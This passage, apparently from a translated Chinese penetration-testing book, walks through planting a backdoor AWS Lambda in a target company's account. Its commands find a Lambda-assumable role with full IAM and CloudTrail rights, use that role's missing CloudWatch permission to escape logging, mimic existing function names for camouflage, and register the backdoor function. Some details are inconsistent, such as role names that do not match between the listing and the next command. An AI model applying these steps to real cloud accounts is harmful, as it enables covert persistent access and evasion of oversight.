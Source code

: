 现在我们将注意力转向设置 Lambda。

### 构建 Lambda

Lambda 需要一个具有强大 IAM 和 CloudTrail 权限的执行角色，以帮助我们维持隐秘的长期访问（稍后会详细说明）。

我们寻找有潜力的候选者，以便用 Lambda AWS 服务进行伪装。请记住，为了伪装一个角色，必须满足两个条件：用户必须能够发起 `sts assume-role` 调用，并且该角色必须允许该用户进行伪装。我们列出了 MXR Ads AWS 账户中的可用角色：

```
root@Point1:~/# **aws iam list-roles \**
**| jq -r '.Roles[] | .RoleName + ", " + \**
**.AssumeRolePolicyDocument.Statement[].Principal.Service' \**
**| grep "lambda.amazonaws.com"**

dynamo-access-mgmt, lambda.amazonaws.com
chef-cleanup-ro, lambda.amazonaws.com
`--snip--`
```

我们检查每个角色的 IAM 策略，直到找到一个具有我们所需权限的角色——理想情况下是完全的 IAM 和 CloudTrail 访问权限：

```
root@Point1:~/# **aws iam list-attached-role-policies --role dynamo-ssh-mgmt --profile jenkins**

"AttachedPolicies": [
     "PolicyName": IAMFullAccess",
     "PolicyName": cloudtrail-mgmt-rw",
     "PolicyName": dynamo-temp-rw",
`--snip--`
```

`dynamo-ssh-mgmt` 角色可能可以派上用场，因为它具有 `IAMFullAccess` 策略。狡猾。如果我们在 MXR Ads 的 AWS 账户中从零开始创建角色，我们可能不会敢于附加这样一个明显的策略。然而，既然他们已经在使用它，我们不妨利用一下。而且，这个角色缺少 CloudWatch 写权限，因此 Lambda 在终止时会悄悄丢弃其执行日志，而不是将其传递给 CloudWatch。完美。

一如既往，我们通过遵循现有的命名约定来试图隐匿在明处。我们查看 `eu-west-1` 区域中现有的 Lambda 函数，以寻求灵感：

```
root@Point1:~/# **aws iam lambda list-functions –region=eu-west-1**
"FunctionName": "support-bbs-news",
"FunctionName": "support-parse-logs",
"FunctionName": "ssp-streaming-format",
`--snip--`
```

我们决定使用名称 `support-metrics-calc`，并调用 `create-function` API 来注册我们的后门 Lambda：

```
root@Point1:~/# **aws lambda create-function --function-name support-metrics-calc \**
**--zip-file fileb://function.zip \**
**--handler function \**
**--runtime go1.x \**
**--role arn:aws:iam::886371554408:role/dynamo-ssh-mgmt \**
**--region eu-west-1**
```
